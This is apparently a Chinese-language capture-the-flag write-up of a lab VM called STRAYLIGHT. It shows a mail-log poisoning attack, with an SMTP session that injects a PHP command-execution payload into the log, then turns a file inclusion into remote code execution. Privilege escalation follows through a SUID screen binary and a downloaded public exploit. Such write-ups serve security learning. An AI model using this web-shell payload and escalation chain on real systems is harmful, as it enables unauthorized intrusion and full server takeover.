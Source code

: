 找啊找，终于在这里发现了被访问过目录的痕迹
![Branching](Pasted image 20241105211350.png)
在80端口访问得到以下界面
![Branching](Pasted image 20241105211525.png)
submit之后
![Branching](Pasted image 20241105214814.png)
可以合理怀疑有文件包含漏洞
![Branching](Pasted image 20241105214842.png)
因为这台服务器上开启了smtp，应该想到去查看他的mail.log(可惜我没想到)
![Branching](Pasted image 20241105214752.png)
接下来我们尝试往日志里注入恶意代码
发送邮件
~~~
┌──(kali㉿kali)-[~/STRAYLIGHT]
└─$ telnet 192.168.56.102 25
Trying 192.168.56.102...
Connected to 192.168.56.102.
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from:lizi@lizi.com
250 2.1.0 Ok
rcpt to:root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject:<?php phpinfo();system($_GET['cmd']);?>
.
250 2.0.0 Ok: queued as 4A07C5514


~~~
配合包含/var/log/mail.log即可RCE
可以看到phpinfo被解析了，那我们可以传入命令了
![Branching](Pasted image 20241105221426.png)
id测试是否可用
![Branching](Pasted image 20241105221650.png)
可以用，那我们传入反弹shell
![Branching](Pasted image 20241105221943.png)
拿到shell！！！
# STRAYLIGHT提权
有以下几个用户
~~~
turing-police
postgres
wintermute
~~~
查看suid权限
![Branching](Pasted image 20241106144828.png)
发现有screen的suid权限，这是不常见的
尝试在GTFO-bins上搜索，无果
试一下找一下提权漏洞
![Branching](Pasted image 20241106144937.png)
下载41154.sh
成功提权！